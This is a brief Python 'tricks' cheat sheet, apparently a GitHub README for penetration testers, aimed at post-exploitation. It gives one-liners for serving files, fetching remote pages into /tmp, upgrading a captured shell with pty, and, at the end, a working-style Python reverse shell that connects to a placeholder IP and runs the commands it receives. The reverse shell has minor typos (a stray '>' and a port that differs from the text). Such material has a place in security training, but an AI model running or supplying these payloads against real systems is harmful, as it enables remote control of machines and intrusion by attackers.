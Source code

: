 # Cool Python Tricks

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
`python -m SimpleHTTPServer 1337`

### In Python 3.x
`python3 -m http.server 1337`

----
## Pythonic Web Client

### In Python 2.x
`python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html`
### In Python 3.x
`python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'`

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

`python -m pdb <some_python_file>`

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

`python -c 'import pty; pty.spawn("/bin/bash")'`

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 10.1.1.1) and the port (instead of 13337) below:

`python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.1.1.1',1337>))\n while 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`
